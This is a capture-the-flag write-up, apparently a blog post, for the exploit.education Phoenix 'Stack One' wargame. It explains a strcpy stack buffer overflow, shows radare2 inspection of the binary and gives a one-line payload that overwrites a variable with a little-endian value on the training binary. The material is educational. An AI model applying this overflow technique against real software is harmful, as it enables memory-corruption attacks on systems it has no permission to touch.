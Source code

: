 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x1"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 1

Write-up for: [https://exploit.education/phoenix/stack-one/](Stack One)

<!--more-->

I will omit the source code from now on. All future challenges will be approached from a black box perspective first to improve reversing skills. Also the source is available online (if exploit.education is down try wayback archive)

https://exploit.education/phoenix/stack-one/

This challenge is very similar to the previous one, it only requires a bit more precision in overflowing the buffer since a specific value is expected.

In this challenge, data is read via strcpy, using the first command line parameter as input. This call is unsafe and leads to a stack buffer overflow.

```
  strcpy(locals.buffer, argv[1]);
```

# Binary analysis

We can start off by looking at the binary using radare2:

```
radare2 stack-one
aa # analyze everything
s main
pD @ main

...
specify an argument, to be copied into the "buffer"" @ 0x804863c
...
ng_closer__changeme_is_currently_0x_08x__we_want_0x496c5962_n
...
```

Judging from these strings we can pass an argument to copy to a buffer. The is a variable called changeme which needs to be of a certain value.
Going from here, we would try to determine the length of the buffer. Various options exist: static analysis / RE, probing the binary or debugging it.

Since this is a very simple binary, let's skip the further analysis details.

The exploit:

```
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-one `python -c 'print "A"*64 + "\x62\x59\x6c\x49"' `

Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

Note that the bytes in the payload are reversed to what we saw in the string due to the little-endian nature of the system.
  
